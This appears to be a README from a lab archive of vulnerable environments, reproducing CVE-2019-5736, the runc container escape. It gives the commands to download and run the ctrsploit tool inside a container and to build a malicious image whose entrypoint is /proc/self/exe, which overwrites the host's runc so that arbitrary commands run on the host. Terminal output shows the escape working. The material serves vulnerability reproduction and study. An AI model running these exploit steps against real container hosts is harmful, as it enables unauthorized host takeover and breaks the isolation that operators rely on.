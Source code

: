# cve-2019-5736

* dqd:
  * ssst0n3/docker_archive:cve-2019-5736 -> ssst0n3/docker_archive:cve-2019-5736_v0.1.0
  * ssst0n3/docker_archive:cve-2019-5736_v0.1.0
* ctr:
  * ssst0n3/docker_archive:ctr_cve-2019-5736 -> ssst0n3/docker_archive:ctr_cve-2019-5736_v0.1.0
  * ssst0n3/docker_archive:ctr_cve-2019-5736_v0.1.0

## usage

```shell
$ cd vul/cve-2019-5736
$ docker compose -f docker-compose.yml -f docker-compose.kvm.yml up -d
$ ./ssh
```

### reproduce

#### exec

terminal 1

```shell
root@cve-2019-5736:~# docker run --name poc -ti alpine:3.15 sh
root@b54c1cd02517:/# wget -q https://github.com/ctrsploit/ctrsploit/releases/latest/download/ctrsploit_linux_amd64 -O /usr/bin/ctrsploit
root@b54c1cd02517:/# chmod +x /usr/bin/ctrsploit
root@c4602d14a7f8:/# ctrsploit vul 5736 x exec -c 'touch /escaped'
INFO[0000] Overwritten /bin/sh successfully             
INFO[0000] Waiting the host to exec container /bin/sh ... 
```

terminal 2

```shell
root@cve-2019-5736:~# docker exec -ti poc /bin/sh
```

terminal 1

```shell
root@c4602d14a7f8:/# ctrsploit vul 5736 x exec -c 'touch /escaped'
INFO[0000] Overwritten /bin/sh successfully             
INFO[0000] Waiting the host to exec container /bin/sh ... 
INFO[0000] Found the PID: 22                            
INFO[0000] Successfully got the file handle             
INFO[0000] Successfully got write handle&{0xc00009a060} 
INFO[0000] The command executed is#!/bin/bash
touch /escaped
root@c4602d14a7f8:/# exit
-rw-r--r-- 1 root root 0 Oct 14 08:49 /escaped
```

#### image

```shell
root@cve-2019-5736:~# ctrsploit vul 5736 x image -c 'touch /escaped'
INFO[0000] exploit generated in poc-cve-2019-5736 directory, build it and push it to your registry
docker build -t poc poc-cve-2019-5736 
root@cve-2019-5736:~# docker build -t poc poc-cve-2019-5736
Sending build context to Docker daemon  6.144kB
Step 1/10 : FROM golang:1.16 AS builder
 ---> 972d8c0bc0fc
Step 2/10 : COPY overwriter.go /
 ---> 6fe005276394
Removing intermediate container bcd95d06fe39
Step 3/10 : COPY ld.go /
 ---> c96cc8d25694
Removing intermediate container deac0e0c9b4e
Step 4/10 : RUN CGO_ENABLED=0 go build -o /overwriter /overwriter.go
 ---> Running in 5527dc25ba1a
 ---> 1559134298da
Removing intermediate container 5527dc25ba1a
Step 5/10 : RUN CGO_ENABLED=0 go build -o /ld /ld.go
 ---> Running in e870f2e20af3
 ---> 07547540fe01
Removing intermediate container e870f2e20af3
Step 6/10 : FROM ubuntu:16.04
 ---> b6f507652425
Step 7/10 : COPY --from=builder /ld /lib64/ld-linux-x86-64.so.2
 ---> Using cache
 ---> e15e9f6a5e5c
Step 8/10 : COPY --from=builder /overwriter /
 ---> 3be58e5a6a06
Removing intermediate container c9ea8ad203d6
Step 9/10 : COPY payload /payload
 ---> 55529e029bf9
Removing intermediate container a0468d84af75
Step 10/10 : ENTRYPOINT /proc/self/exe
 ---> Running in bf38aaf8feaa
 ---> d8d16c4d99b9
Removing intermediate container bf38aaf8feaa
Successfully built d8d16c4d99b9
Successfully tagged poc:latest
root@cve-2019-5736:~# docker run -ti poc
ld
[+] Successfully got the file handle 3
overwriter
/proc/self/fd/3
[+] Successfully got write handle &{0xc00004a060}
[+] The command executed is 
#!/bin/bash
touch /escaped
root@cve-2019-5736:~# ls -lah /escaped 
-rw-r--r-- 1 root root 0 Oct 14 09:34 /escaped
```


### env details

```shell
root@cve-2019-5736:~# docker --version
Docker version 17.06.0-ce, build 02c1d87
root@cve-2019-5736:~# docker-runc --version
runc version 1.0.0-rc3
commit: 2d41c047c83e09a6d61d464906feb2a2f3c52aa4
spec: 1.0.0-rc5
```

## build

```shell
make all DIR=vul/cve-2019-5736
```

for developers:

```dockerfile
FROM ssst0n3/docker_archive:ctr_cve-2019-5736_v0.1.0
```
